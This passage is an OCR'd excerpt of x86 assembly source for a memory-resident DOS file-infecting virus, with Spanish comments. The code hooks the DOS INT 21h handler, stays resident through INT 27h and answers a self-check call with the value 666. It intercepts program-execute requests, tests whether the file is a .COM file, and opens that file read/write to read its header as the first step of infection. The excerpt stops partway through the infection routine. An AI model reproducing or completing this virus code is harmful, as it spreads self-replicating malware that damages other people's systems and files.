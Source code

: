     lea dx, [bp + handler_int21h]           ; | DS:DX -> dirección del nuevo handler: handler_int21h  
    int 21h                                 ; |_DOS API - Cambiar vector

                                            ; | CS = segmento de PSP  
    lea dx, [bp + eof]                      ; | DX = Tamaño de porción residente (bytes)  
    int 27h                                 ; |_DOS API - Termina el programa y lo deja en memoria 

handler_int21h:    
    cmp ax, 0ABCDh                          ; llamada de reconocimiento del virus:  
    je service_ABCD                         ; responder y retornar  
    cmp ax, 4B00h                           ; llamada para ejecutar archivo:  
    je infect_file                          ; infectar y delegar  
    jmp handler_old                         ; en otro caso, delegar al handler original de INT 21h 

service_ABCD:    
    mov ax, 029Ah                           ; código de respuesta: 666 (29Ah)  
    iret                                    ; retornar de la interrupción

infect_file:     
    call d_offset2                          ; calcular delta offset  
    
d_offset2:    
    pop bp  
    sub bp, offset d_offset2

    pushf                                   ; guardar estado CPU  
    push ax                                 ; guardar registros que serán utilizados  
    push bx  
    push cx  
    push dx  
    push si  
    push ds  
                                            ; por la llamada AX=4B00h, DS:DX apunta al nombre del archivo  
    mov si, dx                              ; verificar que sea extensión ".COM"  
    
loop_str:    
    lodsb  
    or al, al  
    jz check_fail  
    cmp al, '.';  
    jne loop_str  
    lodsb  
    cmp al, 'C'  
    jne check_fail  
    lodsb  
    cmp al, 'O' 
    jne check_fail  
    lodsb  
    cmp al, 'M'
    je check_ok

check_fail:      
    jmp close_file

check_ok:      
    mov ah, 3Dh                             ; | AH = 3Dh  
    mov al, 2                               ; | AL = 2, lectura y escritura  
    int 21h                                 ; |_DOS API - Abrir archivo existente 

    jc exit                                 ; si no se puede abrir archivo, restaurar y delegar  
    xchg ax, bx                             ; handle de archivo en BX

    push cs  
    pop ds                                  ; MOV DS, CS

    mov ah, 3Fh                             ; | AH = 3Fh  
    mov cx, 4                               ; | CX = tamaño del cabezal, 4 bytes  
    lea dx, [bp + host_head]                ; | DS:DX -> destino: buffer para cabezal original  
    int 21h                                 ; |_DOS API - Leer de archivo/dispositivo
